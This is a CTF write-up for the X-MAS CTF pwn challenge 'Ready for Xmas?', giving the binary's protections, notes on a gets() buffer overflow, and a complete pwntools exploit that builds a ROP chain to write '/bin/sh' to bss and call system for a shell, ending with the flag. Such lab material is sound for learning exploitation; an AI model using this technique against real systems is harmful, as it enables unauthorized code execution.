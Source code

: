 ```yaml
---
title: Ready for Xmas?
date: 2021-01-22
categories: [pwn]
tags: [xmasctf]
toc: false
---
```



#### Description: Are you ready for aaaaaaaaaaaaaaaaaaaaaaaaaaaaaa/bin/shawhkj\\xffwaa ?

Arch: amd64-64-little
RELRO: Partial RELRO
Stack: No canary found
NX: NX enabled
PIE: No PIE (0x400000)

![](https://elnathctf.files.wordpress.com/2021/01/image.png?w=726)

 
#### Notes:


- memset(0x601068, 0, 9) gives us 9 bytes to write to in the bss

- gets() -> buffer overflow

- NX is enabled so can't execute on stack

- No PIE, can use ropchain to write '/bin/sh' to bss and pass bss address into system

- mprotect is used here to check input for presence of 'sh' and 'cat'.

The approach I took was to build a ropchain to use gets() to write '/bin/sh' to the bss and then pass that address to system. The only gadget needed for this was a pop rdi ; ret

#### PoC:

  
```Python

from pwn import *

POP_RDI_RET = p64(0x00000000004008e3)
RET = p64(0x00000000004005e6)

def create_payload(junk):

	payload = b''
	payload += junk
	payload += POP_RDI_RET
	payload += p64(0x601068) # bss addr
	payload += p64(0x400630) # gets
	payload += RET
	payload += POP_RDI_RET
	payload += p64(0x601068) # bss addr
	payload += RET
	payload += RET
	payload += RET
	payload += p64(0x400610) # system

	return payload

  
def send_payload(io, payload):
	io.sendlineafter('Christmas?', payload)

def main():

	isRemote = False
	if isRemote:
		io = remote('challs.xmas.htsp.ro', 2001)

	else:
		io = process(['./chall'])

	context.log_level = 'debug'
	context.terminal = ['tmux', 'splitw', '-h']
	context.binary = './chall'

	isDebug = False
	if isDebug:
		gdb.attach(io, '''
			b *0x400852
			b *0x400875
		''')

	junk = b'A'*72

	payload = create_payload(junk)
	send_payload(io, payload)
	
	# write to bss
	io.sendline(b'/bin/sh\x00')

	io.interactive()

if __name__ == "__main__":
	main()

# X-MAS{l00ks_lik3_y0u_4re_r3ady}

```